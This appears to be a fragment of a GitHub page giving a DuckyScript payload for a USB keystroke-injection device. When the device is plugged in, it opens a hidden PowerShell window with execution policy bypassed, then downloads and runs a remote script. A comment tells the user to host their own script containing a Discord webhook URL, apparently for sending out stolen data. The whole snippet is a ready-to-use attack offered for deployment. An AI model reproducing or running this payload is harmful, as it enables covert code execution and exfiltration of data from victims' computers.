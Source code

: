 #Here is the payload in DuckyScript format:#

REM make sure to replace: `https://raw.githubusercontent.com/..LINK_TO../main/YourHostedFile.ps1` with your own url, with the modified discord webhook url in it too.
GUI r
DELAY 500
ALTSTRING powershell -ExecutionPolicy Bypass -WindowStyle Hidden -Command "[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12; iwr -useb 'https://raw.githubusercontent.com/..LINK_TO../main/YourHostedFile.ps1' | iex"
ENTER
